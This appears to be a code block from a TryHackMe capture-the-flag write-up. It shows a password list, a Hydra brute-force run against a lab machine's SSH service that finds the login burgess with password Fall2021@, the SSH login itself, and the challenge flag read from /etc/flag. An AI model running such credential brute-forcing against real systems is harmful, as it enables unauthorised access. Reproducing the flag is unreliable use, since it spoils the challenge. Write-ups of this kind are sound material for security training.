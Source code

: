 ```bash
Fall2021%
Fall2021^
Fall2021&
Fall2021*
Fall2021(
Fall2021)

rhost=10.10.98.196
hydra -L usernames.txt -P passwords.txt ssh://$rhost -t 4

└─# rhost=10.10.98.196
hydra -L usernames.txt -P passwords.txt ssh://$rhost -t 4


Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 12:37:47
[DATA] max 4 tasks per 1 server, overall 4 tasks, 120 login tries (l:6/p:20), ~30 tries per task
[DATA] attacking ssh://10.10.98.196:22/
[22][ssh] host: 10.10.98.196   login: burgess   password: Fall2021@
[STATUS] 98.00 tries/min, 98 tries in 00:01h, 22 to do in 00:01h, 4 active
[STATUS] 60.00 tries/min, 120 tries in 00:02h, 1 to do in 00:01h, 1 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 12:39:48
                                                                                   
ssh burgess@10.10.98.196

burgess@10.10.98.196's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1058-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jan 26 12:41:36 UTC 2024

  System load:  0.02               Users logged in:                0
  Usage of /:   21.1% of 19.32GB   IP address for eth0:            10.10.98.196
  Memory usage: 37%                IP address for br-mailcow:      172.22.1.1
  Swap usage:   0%                 IP address for docker0:         172.17.0.1
  Processes:    145                IP address for br-c0dd1805e8c7: 172.18.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

61 packages can be updated.
8 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Nov 16 09:49:44 2021 from 10.8.232.37
burgess@ip-10-10-98-196:~$ cat /etc/flag
THM{a97a26e86d09388bbea148f4b870277d}

```
 


